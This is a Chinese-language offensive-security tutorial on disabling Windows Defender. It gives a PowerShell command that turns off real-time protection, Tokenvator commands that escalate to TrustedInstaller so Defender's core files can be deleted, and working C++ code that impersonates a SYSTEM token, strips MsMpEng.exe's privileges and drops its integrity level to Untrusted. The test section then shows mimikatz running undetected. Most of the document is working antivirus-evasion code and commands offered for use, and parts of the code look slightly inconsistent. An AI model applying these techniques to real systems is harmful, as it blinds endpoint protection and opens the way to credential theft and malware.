# 前言


# Powershell关闭Defender实时保护

执行如下Powershell命令可以关闭Windows Defender的实时保护

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```




# 提权至Trustedinstaller

## 情景分析

当我们使用system权限尝试删除WindowsDefender的某些核心文件时，会提示权限不足无法删除

	


这是因为修改WindowsDefender目录里的文件需要`TrustedInstaller`权限，而我们要做的是将`system`权限提升至`Trustedinstaller`

	


## 提权操作

使用开源的项目[Tokenvator](https://github.com/0xbadjuju/Tokenvator)将system权限提升至TrustedInstaller权限，执行如下命令后会弹出一个cmd shell, 查询其所在组可以发现权限为TrustedInstaller

```
.\Tokenvator.exe
GetTrustedinstaller /Command:c:\windows\system32\cmd.exe
```




提升至Trustedinstaller权限后即可删除windowsdefender的核心文件


# 摘除Defender令牌

## 实现原理

`MsMpEng.exe` 是 Microsoft Windows Defender 的核心进程，Windows Defender 是 Windows 操作系统自带的反病毒软件。此进程名称代表 Microsoft Malware Protection Engine，它负责在你的计算机上扫描、检测和移除恶意软件，通常此进程是加了PPL保护	



​		

使用ProcessHacker查看`MsmpEng.exe`的完整级别为`system`

> 在Windows操作系统中，完整性级别是一个安全特性，它被设计用来防止低权限的进程影响高权限的进程。这是通过对进程和对象（如文件或注册表键）分配完整性级别来实现的。如果一个进程试图修改一个具有比其更高完整性级别的对象，操作将会失败
>
> - **Untrusted (0x0000)**: 这是最低的完整性级别，通常不会分配给进程。
> - **Low (0x1000)**: 通常用于Web浏览器和其他可能处理不受信任输入的程序。这可以帮助防止恶意软件通过这些程序蔓延到系统的其它部分。
> - **Medium (0x2000)**: 这是普通用户级别的进程默认的完整性级别。除非另有说明，否则大多数进程将运行在此级别。
> - **High (0x3000)**: 这是管理员级别的进程的默认完整性级别。如果用户以管理员身份运行程序，那么该程序将运行在此级别。
> - **System (0x4000)**: 此级别用于操作系统核心和核心模式驱动程序。
> - **Protected (0x5000)**: 这是Windows 8引入的最高完整性级别，用于保护关键的系统进程。这个级别的进程有防篡改保护，并且只能由具有相同或更高完整性级别的进程访问

			


如果我们将`MsmpEng.exe`的完整级别降为Untrusted, 那么该进程对计算机资源的访问将十分有限，由于WindowsDefender的核心服务需要某些令牌，降为Untursted级别后这些令牌都会被摘除掉。如下图所示，我将`msedge.exe`的integrity降为Untrusted后，edge浏览器就无法打开了

	


## 实现思路		

### 1.开启Debug权限

通过`EnableDebugPrivilege`函数开启当前进程的Debug权限，Debug权限允许进程附加到其他进程上以进行调试，以下是`EnableDebugPrivilege`函数的定义：

- 调用`OpenProcessToken`获取传入进程的访问令牌
- 获取到令牌后，函数调用`LookupPrivilegeValue`函数以获取`SE_DEBUG_NAME`特权的本地唯一标识符（LUID）
- 获取`SE_DEBUG_NAME`特权的LUID后，函数创建一个`TOKEN_PRIVILEGES`结构来表示要启用的特权，然后将SE_DEBUG_NAME特权的LUID和启用状态填入到此结构中
- 调用`AdjustTokenPrivileges`来调整之前打开的令牌，使其获得`SE_DEBUG_NAME`特权

```cpp
// 函数EnableDebugPrivilege用于启用指定进程的调试权限
bool EnableDebugPrivilege(HANDLE ProcHandle, HANDLE* hToken)
{
    LUID sedebugnameValue; // LUID，用于表示系统特权
    TOKEN_PRIVILEGES tkp; // 令牌特权结构

    // 打开当前进程的访问令牌
    if (!OpenProcessToken(ProcHandle, TOKEN_ALL_ACCESS |
        TOKEN_QUERY, hToken))
    {
        return FALSE;
    }

    // 查找 SE_DEBUG_NAME 特权的 LUID
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue))
    {
        CloseHandle(*hToken); // 关闭令牌句柄
        return false;
    }
    tkp.PrivilegeCount = 1; // 设置要调整的特权数量
    tkp.Privileges[0].Luid = sedebugnameValue; // 要启用的特权的 LUID
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 启用该特权
    
    // 调整访问令牌的特权
    if (!AdjustTokenPrivileges(*hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL))
    {
        return false;
    }
    return true; // 返回true表示成功启用调试特权
}
```


### 2.获取system权限的令牌

通过获取winlogon.exe进程（该进程以SYSTEM账户运行）的令牌并模拟该用户，这是为了获取到比当前用户更高的权限。

调用OpenProcessToken()函数获取winlogon.exe进程的令牌, 再调用ImpersonateLoggedOnUser函数将使用获取到的令牌模拟用户登录，如果成功，那么在此后的代码执行过程中，将使用该令牌所代表的用户权限。这里因为`winlogon.exe`通常是以SYSTEM用户身份运行的，所以相当于得到了SYSTEM的权限

```cpp
wchar_t procname[80] = L"winlogon.exe"; // 目标进程名称
int pid = getpid(procname); // 获取目标进程ID
HANDLE phandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // 打开目标进程

HANDLE ptoken;
OpenProcessToken(phandle, TOKEN_READ | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, &ptoken); // 获取目标进程的访问令牌

// 尝试以目标用户身份运行
if (ImpersonateLoggedOnUser(ptoken)) {
    printf("[*] Impersonated System!\n");
}
else {
    printf("[-] Failed to impersonate System...\n");
}
// 关闭句柄
CloseHandle(phandle);
CloseHandle(ptoken);
```


### 3.降低令牌权限

以下代码的主要目的是获取`MsMpEng.exe`的句柄，启用该进程的调试特权，并通过`SetPrivilege()`函数移除`MsMpEng.exe`的大部分权限，这使得Windows Defender丧失了很多能力，包括加载驱动程序、更改系统环境、备份文件等

```cpp
// 重复上述步骤，但目标进程改为"MsMpEng.exe"
wchar_t procname2[80] = L"MsMpEng.exe";
pid = getpid(procname2);
printf("[*] Killing Defender...\n");
phandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
if (phandle != INVALID_HANDLE_VALUE) {
    printf("[*] Opened Target Handle\n");
}
else {
    printf("[-] Failed to open Process Handle\n");
}
EnableDebugPrivilege(phandle,&ptoken);
// 以下一系列SetPrivilege调用移除了所有特定的权限
SetPrivilege(ptoken, SE_DEBUG_NAME, TRUE);
SetPrivilege(ptoken, SE_CHANGE_NOTIFY_NAME, TRUE);
SetPrivilege(ptoken, SE_TCB_NAME, TRUE);
SetPrivilege(ptoken, SE_IMPERSONATE_NAME, TRUE);
SetPrivilege(ptoken, SE_LOAD_DRIVER_NAME, TRUE);
SetPrivilege(ptoken, SE_RESTORE_NAME, TRUE);
SetPrivilege(ptoken, SE_BACKUP_NAME, TRUE);
SetPrivilege(ptoken, SE_SECURITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SYSTEM_ENVIRONMENT_NAME, TRUE);
SetPrivilege(ptoken, SE_INCREASE_QUOTA_NAME, TRUE);
SetPrivilege(ptoken, SE_TAKE_OWNERSHIP_NAME, TRUE);
SetPrivilege(ptoken, SE_INC_BASE_PRIORITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SHUTDOWN_NAME, TRUE);
SetPrivilege(ptoken, SE_ASSIGNPRIMARYTOKEN_NAME, TRUE);
printf("[*] Removed All Privileges\n");
}
```


### 4.设置进程完整级别为Untrusted

通过`SetTokenInformation()`函数将MsMpEng.exe的完整性级别设为Untrusted，这是最低的完整性级别，进一步限制了Windows Defender的能力

```cpp
// 设置令牌完整性级别为 Untrusted
DWORD integrityLevel = SECURITY_MANDATORY_UNTRUSTED_RID;
SID integrityLevelSid{};
integrityLevelSid.Revision = SID_REVISION;
integrityLevelSid.SubAuthorityCount = 1;
integrityLevelSid.IdentifierAuthority.Value[5] = 16;
integrityLevelSid.SubAuthority[0] = integrityLevel;
TOKEN_MANDATORY_LABEL tokenIntegrityLevel = {};
tokenIntegrityLevel.Label.Attributes = SE_GROUP_INTEGRITY;
tokenIntegrityLevel.Label.Sid = &integrityLevelSid;
if (!SetTokenInformation(
    ptoken,
    TokenIntegrityLevel,
    &tokenIntegrityLevel,
    sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(&integrityLevelSid)))
{
    printf("SetTokenInformation failed\n");
}
else {
    printf("[*] Token Integrity set to Untrusted\n");
}
```


## 运行测试

在WindowsServer2019上，使用管理员权限执行`Kill_WindowsDefender.exe`

	


随后用ProcespsHacker查看`MsMpEng.exe`的完整级别, 可以发现变成了`Untrusted`

'	


将WindowsDefender设置为`Untrusted`级别后，运行mimikatz也不会出现报毒现象

	


但是这种方法只能在server服务器上使用，无法在Windows10及以上版本使用

	


​	

